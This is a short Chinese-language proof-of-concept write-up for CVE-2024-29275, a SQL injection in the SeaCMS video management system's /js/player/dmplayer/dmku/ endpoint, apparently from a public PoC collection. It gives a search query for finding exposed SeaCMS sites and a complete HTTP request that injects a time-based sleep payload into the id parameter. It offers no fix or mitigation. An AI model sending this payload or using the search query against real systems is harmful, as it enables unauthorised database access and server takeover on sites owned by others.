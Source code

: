 

# CVE-2024-29275：海洋CMS /js/player/dmplayer/dmku/ SQL注入漏洞

### 1.漏洞描述

海洋CMS影视管理系统 /js/player/dmplayer/dmku/ 接囗存在 SQL注入漏洞，未经授权攻击者可通过该漏洞获取数据库敏感信息，进一步利用可获取服务器权限，导致网站处于极度不安全状态。

### 2.搜索语法

```plain
app="海洋CMS"
```

### 3.漏洞复现

```plain
GET /js/player/dmplayer/dmku/?ac=del&id=(select(0)from(select(sleep(5)))v)&type=list HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/f4f0efd0-63ac-422e-aa5b-32e57b059064)

